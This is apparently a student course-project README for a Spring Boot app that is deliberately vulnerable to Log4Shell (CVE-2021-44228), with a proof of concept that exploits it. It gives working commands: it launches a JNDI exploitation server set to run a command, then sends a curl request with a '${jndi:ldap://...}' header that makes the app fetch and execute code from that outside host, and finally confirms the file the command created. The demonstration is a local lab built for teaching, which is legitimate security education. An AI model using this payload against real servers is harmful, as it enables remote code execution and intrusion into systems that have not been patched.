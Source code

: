 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test that the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

To breach the app we just need to call the app and introduce the correct call as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#Notice that we are including the endpoint given by the exploitation tool. 
#The name of the header does not matter because the app will print all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```
This will bring the same html message that is rendered in the browser

```bash
  <h1 style="color: #5e9ca0;">Log4Shell</h1><h4>Vulnerability - Exploitation and Mitigation</h4><p>API Version: 1.0</p>
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server in the exploitation tool which executed the given command at start up

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app